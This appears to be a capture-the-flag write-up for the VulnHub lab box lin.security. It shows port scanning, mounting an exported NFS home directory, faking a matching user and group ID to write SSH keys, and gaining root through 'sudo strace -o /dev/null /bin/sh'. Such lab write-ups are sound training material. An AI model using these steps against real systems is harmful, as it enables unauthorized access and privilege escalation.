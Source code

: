 # BOX NAME: lin.security
**LINK**: https://www.vulnhub.com/entry/linsecurity-1,244/

<details open><summary><ins>SUMMARY</ins></summary>

```
1. Enumerate ports
2. Find NFS
3. Manipulate user and group id's
4. create ssh-keys as peter
5. run gtfo-bin on strace

This box took me roughly 10 minutes to compromise after I spun it up.
I feel like I skipped a few steps since the initial user "Peter" which I compromised had access to run sudo.

I found a bob and susan user after I rooted the box. 
Susan had a secret file in her home dir.

There was no need for fuzzing. Nothing more interesting than NFS and SSH running.
```
</details>

# REMOTE ENUMERATION:

<details><summary><ins>TARGET</ins></summary>

```
[+] IP:		10.77.0.89
[+] URL:	N/A
```
</details>
<details><summary><ins>NMAP</ins></summary>

```
└─$ nmap -sV -sC -p 22,111,2049,34105,47371,52387,60159 10.77.0.89 -oN nmap-ports-linsec.log 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-26 22:19 CEST
Nmap scan report for 10.77.0.89
Host is up (0.00044s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7a:9b:b9:32:6f:95:77:10:c0:a0:80:35:34:b1:c0:00 (RSA)
|   256 24:0c:7a:82:78:18:2d:66:46:3b:1a:36:22:06:e1:a1 (ECDSA)
|_  256 b9:15:59:78:85:78:9e:a5:e6:16:f6:cf:96:2d:1d:36 (ED25519)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100005  1,2,3      33565/tcp6  mountd
|   100005  1,2,3      37337/udp   mountd
|   100005  1,2,3      51185/udp6  mountd
|   100005  1,2,3      60159/tcp   mountd
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
34105/tcp open  nlockmgr 1-4 (RPC #100021)
47371/tcp open  mountd   1-3 (RPC #100005)
52387/tcp open  mountd   1-3 (RPC #100005)
60159/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.43 seconds

```
```
└─$ jml-scanner -u 10.77.0.89 -p 65535

+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|J|M|L|-|P|O|R|T|S|C|A|N|N|E|R|
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+

[+] Port 22 is open.
[+] Port 111 is open.
[+] Port 2049 is open.
[+] Port 34105 is open.
[+] Port 47371 is open.
[+] Port 52387 is open.
[+] Port 60159 is open.

[+] A total of 7 found ports open  
```
</details>
<details><summary><ins>WEB</ins></summary>

whatweb-scan
```

```

nikto-scan
```

```

fuzzing
```

```
other
```

```

</details>

<details><summary><ins>SERVICES</ins></summary>

FTP
```

```

SSH
```
└─$ nc 10.77.0.89 22
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4
```
```
└─$ showmount -e 10.77.0.89         
Export list for 10.77.0.89:
/home/peter *

sudo mount -t nfs 10.77.0.89:/home/peter peter/

Folders and ID's are:
drwxr-xr-x 5 1001 1005 4096 Jul 10  2018 .
drwxr-xr-x 3 jml  jml  4096 Jun 26 22:21 ..
-rw-r--r-- 1 1001 1005  220 Jul  9  2018 .bash_logout
-rw-r--r-- 1 1001 1005 3771 Jul  9  2018 .bashrc
drwx------ 2 1001 1005 4096 Jul 10  2018 .cache
-rw-rw-r-- 1 1001 1005    0 Jul 10  2018 .cloud-locale-test.skip
drwx------ 3 1001 1005 4096 Jul 10  2018 .gnupg
drwxrwxr-x 3 1001 1005 4096 Jul 10  2018 .local
-rw-r--r-- 1 1001 1005  807 Jul  9  2018 .profile

manipulate the user:
sudo addgroup --gid 1005 peter
sudo adduser --uid 1001 --gid 1005

Now we have access:
└─$ ll       
total 36
drwxr-xr-x 6 peter peter 4096 Jun 26 22:33 .
drwxr-xr-x 3 jml   jml   4096 Jun 26 22:31 ..
-rw-r--r-- 1 peter peter  220 Jul  9  2018 .bash_logout
-rw-r--r-- 1 peter peter 3771 Jul  9  2018 .bashrc
drwx------ 2 peter peter 4096 Jul 10  2018 .cache
-rw-rw-r-- 1 peter peter    0 Jul 10  2018 .cloud-locale-test.skip
drwx------ 3 peter peter 4096 Jul 10  2018 .gnupg
drwxrwxr-x 3 peter peter 4096 Jul 10  2018 .local
-rw-r--r-- 1 peter peter  807 Jul  9  2018 .profile
drwxr-xr-x 2 peter peter 4096 Jun 26 22:33 .ssh

(note the username "peter")
```

SNMP
```

```

DNS
```

```

MAILSERVICES (POP, IMAP, SMTP)
```

```

LDAP
```

```

</details>

<details><summary><ins>Active Directory</ins></summary>

Active Directory
```

```
</details>

<details><summary><ins>SUMMARY REMOTE</ins></summary>

```
1.
2.
3.
```
</details>

# LOCAL ENUMERATION:

<details><summary><ins>FILES OF INTEREST</ins></summary>

**FILES**:
```
peter@linsecurity:~$ sudo -l
Matching Defaults entries for peter on linsecurity:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User peter may run the following commands on linsecurity:
    (ALL) NOPASSWD: /usr/bin/strace
peter@linsecurity:~$ sudo strace -o /dev/null /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# 
```

**SUID's**:

```

```
**SGID's**:

```

```
**OTHERS**:

```

```
</details>


# LOOT

<details><summary><ins>USEFUL INFORMATION:</ins></summary>

**Kernel Info:**
*file /bin/bash ; echo -e " \\n" && lsb_release -a ; echo -e "\\n" && uname -a*
```

```
</details>

<details><summary><ins>CREDS:</ins></summary>

```
username:password
```
</details>

<details><summary><ins>HASHES:</ins></summary>

```

```
</details>

# PROOFS

<details><summary><ins>Proofs</ins></summary>

Final payload:
```
sudo strace -o /dev/null /bin/sh
```

```
peter@linsecurity:~$ sudo -l
Matching Defaults entries for peter on linsecurity:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User peter may run the following commands on linsecurity:
    (ALL) NOPASSWD: /usr/bin/strace
peter@linsecurity:~$ sudo strace -o /dev/null /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# 
```

</details>